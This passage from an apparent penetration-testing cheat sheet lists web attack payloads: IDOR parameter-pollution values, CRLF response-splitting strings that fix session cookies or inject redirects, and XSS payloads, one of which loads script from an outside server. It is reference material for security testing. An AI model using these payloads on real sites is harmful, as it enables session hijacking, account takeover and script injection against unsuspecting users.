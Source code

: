 ```fundamental
email=victim%40gmail.com,hacker%40gmail.com
email=victim%40gmail.com%20hacker%40gmail.com
email=victim%40gmail.com&email=hacker%40gmail.com
email[]=victim%40gmail.com&email[]=hacker%40gmail.com
```

To generate the above output, run [idor.py](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/scripts/idor.py):

```fundamental
python3 idor.py -n email -i victim@gmail.com -t hacker@gmail.com
```

### HTTP Response Splitting

Also known as CRLF injection. CRLF refers to carriage return (`ASCII 13`, `\r`) and line feed (`ASCII 10`, `\n`).

When encoded, `\r` refers to `%0D` and `\n` refers to `%0A`.

Fixate a session cookie:

```fundamental
somesite.com/redirect.asp?origin=somesite.com%0D%0ASet-Cookie:%20ASPSESSION=123456789
```

Open redirect:

```fundamental
somesite.com/home.php?marketing=winter%0D%0ALocation:%20https%3A%2F%2Fgithub.com
```

Session fixation and open redirection are one of many techniques used in combination with HTTP response splitting. Search the Internet for more techniques.

### Cross-Site Scripting (XSS)

Simple cross-site scripting (XSS) payloads:

```html
<script>alert(1)</script>

<script src="https://myserver.com/xss.js"></script>

<img src="https://github.com/favicon.ico" onload="alert(1)">
```

Hosting JavaScript on [Pastebin](https://pastebin.com) won't work because Pastebin always returns `text/plain` content-type.

Find out more about reflected and stored cross-site scripting (XSS) attacks, as well as cross-site request forgery (XSRF/CSRF) attacks at [ivan-sincek/xss-catcher](https://github.com/ivan-sincek/xss-catcher).

Valid emails with embedded XSS:

```html
user+(<script>alert(1)</script>)@somedomain.com

user@somedomain(<script>alert(1)</script>).com

"<script>alert(1)</script>"@somedomain.com
```
